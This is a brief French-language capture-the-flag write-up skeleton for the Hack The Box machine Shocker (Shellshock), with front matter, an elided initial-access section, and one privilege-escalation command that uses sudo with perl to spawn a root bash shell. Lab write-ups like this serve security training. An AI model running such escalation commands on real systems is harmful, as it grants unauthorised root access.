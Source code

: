 ```yaml
---
title: "Shocker.htb"
date: 2025-08-05
draft: false
tags: ["htb", "shellshock", "easy"]
---
```


![](image.jpg)



![](difficulty.jpg)

Ce writeup détaille l'exploitation de la vulnérabilité **Shellshock** sur la machine *Shocker.htb* (Hack The Box).

## Accès initial

...

## Exploitation

```bash
sudo /usr/bin/perl -e 'exec "/bin/bash";'
